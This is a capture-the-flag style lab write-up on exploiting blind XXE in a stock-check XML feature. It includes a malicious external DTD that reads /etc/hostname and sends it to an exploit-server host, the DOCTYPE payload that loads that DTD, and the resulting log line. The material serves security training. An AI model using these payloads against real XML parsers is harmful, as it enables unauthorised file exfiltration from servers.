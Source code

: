 ### Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the /etc/hostname file.

_____

Analysis and Exploit:

1. Intercept request with XML content **/product/stock**
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
        <stockCheck>
            <productId>1</productId>
            <storeId>1</storeId>
        </stockCheck>
    ```
2. Create a malicious DTD and store it on the exploit server
    1. POST **/** on the exploit server
        - urlIsHttps=on
        - responseFile=/xxe.dtd
        - responseHead=HTTP/1.1 200 OK  
        - Content-Type: text/plain; charset=utf-8
        - responseBody= _see DTD below_
        - formAction=STORE  
    
    **DTD**
    ```xml
    <!ENTITY % file SYSTEM "file:///etc/hostname">
    <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'https://XXX.exploit-server.net/?x=%file;'>">
    %eval;
    %exfiltrate;
    ```
3. Create payload and send it via **[BURP-REPEATER]**
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://XXX.exploit-server.net/xxe.dtd"> %xxe; ]>
        <stockCheck>
            <productId>1</productId>
            <storeId>1</storeId>
        </stockCheck>
    ```
    - if "XML parsing error" and status code == 400: works
4. Access log file on the exploit server
    - 10.0.3.160      2023-04-09 21:05:24 +0000 "GET /?x=8b84e4e51b5b HTTP/1.1" 200 "User-Agent: Java/17.0.5"
5. Submit the retrieved value

_____

Script:

1. Store the malicious DTD on the exploit server | POST (EXPLOIT SERVER) **/** | params: urlIsHttps, responseFile, responseHead, responseBody, formAction
    - urlIsHttps=on
    - responseFile=/xxe.dtd
    - responseHead=HTTP/1.1 200 OK Content-Type: text/plain; charset=utf-8
    - responseBody= _see DTD below_
    - formAction=STORE
    ```xml
    <!ENTITY % file SYSTEM "file:///etc/hostname">
    <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'https://XXX.exploit-server.net/?x=%file;'>">
    %eval;
    %exfiltrate;
    ```
    - if response status code == 200: ok

2. Send payload | POST **/product/stock** | params: 'xml payload'
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://XXX.exploit-server.net/xxe.dtd"> %xxe; ]>
        <stockCheck>
            <productId>1</productId>
            <storeId>1</storeId>
        </stockCheck>
    ```
    - if "XML parsing error" and status code == 400: ok

3. Retrieve the value | GET (EXPLOIT SERVER) **/log**
    - if response status code == 200: ok
    - extract value from substring "/?x=8b84e4e51b5b"

4. Submit the value | POST **/submitSolution** | params: answer
    - submit value